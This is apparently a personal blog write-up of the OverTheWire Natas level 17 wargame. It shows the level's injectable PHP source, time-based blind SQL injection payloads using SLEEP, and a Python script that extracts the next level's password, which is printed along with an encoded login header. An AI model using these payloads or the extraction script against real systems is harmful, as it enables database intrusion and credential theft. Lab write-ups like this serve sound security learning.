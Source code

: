 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 17"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 17 > Level 18

![natas17-01](/img/otw-natas/natas17-01.png)

```
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This challenge is identical to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) except instead of receiving a simple true/false, we get jack squat!

![natas17-jacksquat](/img/otw-natas/jacksquat.jpg)

If this were a different situation I might look for a network-based solution, can we send something back to ourselves, etc. Since we can't, the only remaining reasonable solution I'm aware of is a timing-based attack.

Modify the solution to [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to include a check against the password and an associated SLEEP statement. The payload POC which worked after a bit of fussing about:

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",0,SLEEP(10));#
```

What I've done here is pick a random letter, 'a,' which I'll assume is not correct and put the SLEEP statement in the 'if not true' portion of the IF function. As expected, the response took slightly longer than 10s to arrive. Moving the SLEEP statement into the 'if true' portion of the IF function, the response returns immediately.

```
username=natas18" AND IF(BINARY LEFT(password, 1)="a",SLEEP(10),0);#
```

It technically doesn't matter which of these we use, but sleeping on a match is preferable in practice since they are fewer hits than misses.

There are a couple things I don't understand that tripped me up before I arrived at this solution. First, the timing is very precise when using AND but goes triple the time specified for sleeping when using an OR. Second, the typical MySQL `--` comment does not work but `#` does to tidy up the end of the command.  Note to future self: understand this.

EDIT: `--` comments [require a space](http://dev.mysql.com/doc/refman/5.1/en/comments.html) after the dashes which I had not included.  Mystery solved. I wonder how many times I've made this error in the past?

```
import socket, time

HOST = "natas17.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas18" AND IF(BINARY LEFT(password, {glength})="{guess}",SLEEP(10),0);#'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas17(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
   
    t1 = int(time.time())
    s.send(REQU)
    r = s.recv(8192) 
    s.close()
    
    if (int(time.time()) - t1) > 7:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas17(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

This one is fun to watch becuase of the obvious pause when a correct character is found.  Good stuff.

![natas17-02](/img/otw-natas/natas17-02.png)

Eventually, xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
